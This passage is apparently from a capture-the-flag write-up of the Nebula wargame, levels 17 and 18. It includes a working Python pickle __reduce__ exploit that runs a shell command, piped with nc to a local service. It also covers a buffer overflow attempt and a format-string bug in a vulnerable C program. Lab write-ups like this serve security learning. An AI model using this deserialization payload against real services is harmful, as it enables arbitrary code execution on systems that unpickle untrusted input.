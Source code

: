 ### Method 2
We will understand how exactly pickling works and construct our own objects with any desired unpickling behavior. An object can define a __reduce__ method, that will be called at pickle time, and that returns a callable object (a function) and its arguments. This callable object will be executed at unpickling to construct the initial version of the object. So we could easily create a class with a [\_\_reduce\_\_()](https://docs.python.org/2/library/pickle.html) method returning some executable malicious code. More on how to exploit pickle [here](https://blog.nelhage.com/2011/03/exploiting-pickle/). The exploit class looks like this: 
```python
import pickle
import os
  
class Exploit(object):
  def __reduce__(self):
    return (os.system,
            (('getflag > /tmp/out_exp'),))
    
dmp = pickle.dumps(Exploit())
print dmp
```

And let's use it to get arbitrary code execution: 
```bash
level17@nebula:~$ python exploit.py  | nc 127.0.0.1 10007
Accepted connection from 127.0.0.1:53002
^C
level17@nebula:~$ cat /tmp/out_exp
You have successfully executed getflag on a target account
```

Nice! Any command can be injected this way.

### Level 18
Here we have a [vulnerable C program](https://exploit-exercises.com/nebula/level18/) and we're told there are 3 ways to exploit it: an easy way, an intermediate way and a more difficult/unreliable way. First some things that didn't work (for me) and need further investigation. There is a possible buffer overflow in the code that parses the input for the _`setuser`_ command:
```c
char msg[128];
sprintf(msg, "unable to set user to '%s' -- not supported.\n", user);
```

But if we try to exploit it, there's a Fortify check in place, that would need to be bypassed (how?): 
```bash
$ echo setuser `perl -e 'print "A"x200'` | /home/flag18/flag18
*** buffer overflow detected ***: /home/flag18/flag18 terminated
======= Backtrace: =========
/lib/i386-linux-gnu/libc.so.6(__fortify_fail+0x45)[0x6ff8d5]
```

Another thing I've noticed is the [format strings vulnerability](https://www.exploit-db.com/docs/28476.pdf) in the function that processes the _`site exec`_ commands: 
```c
void notsupported(char *what)
{
[..]
   dprintf(what);
}
```
